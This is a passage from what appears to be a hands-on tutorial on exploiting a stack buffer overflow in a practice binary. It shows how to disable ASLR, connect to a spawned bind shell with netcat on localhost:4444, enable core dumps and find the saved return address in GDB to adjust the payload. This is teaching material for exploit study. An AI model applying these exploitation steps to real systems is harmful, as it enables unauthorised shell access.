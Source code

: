 After disabling ASLR trying running the program again. If there is still an error check if the address of `saved rip` is still up to date (disabling ASLR might cause an update).

If there are no more errors open another terminal and verify if our exploit is working.

```shell
nc localhost 4444
```

Running this command will connect us to the bind shell run from `./vuln`. We can now execute any commands we want in here.
Now that our buffer overflow attack is working we can `quit` the gdb session and run it with `./vuln < payload.bin`. 

```shell
$ ./vuln < payload.bin
Enter some text: You entered: AAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

As since the stack grows in descending address order, programs that are higher in the call stack should have a higher address in memory.
To verify we are going to look at `saved rip` both in GDB and just the plain terminal.
In my case in GDB `saved rip` is at `0x7fffffffdb88`.


But how do we find out `saved rip` without running `./vuln` in GDB?
Turns out we can enable something called coredumps. This is basically a file containing the state of the program that gets written whenever our program crashes.
Gdb supports debugging from a dump file which is how we will look at the `saved rip`


```shell
ulimit -c unlimited
echo "/tmp/core.%e.%p" | sudo tee /proc/sys/kernel/core_pattern
```

This enables coredumps and create a directory for them to be written into.
After running our program again and causing a crash.

```shell
$ ls /tmp/core.vuln.*
/tmp/core.vuln.3143
```

Now we can open GDB with the coredump attached.

```shell
gdb ./vuln /tmp/core.vuln.3143
```

In my case the `saved rip` is `0x7fffffffdc60`. Since im pretty sure there is not really a higher level in the call stack than the terminal we can work with we can go modify our `payload.py` once more.
After running the update we can check if the program runs in the terminal

```shell
$ ./vuln < payload.bin
Enter some text: You entered: AAAAAAAAAAAAAAAAh

```
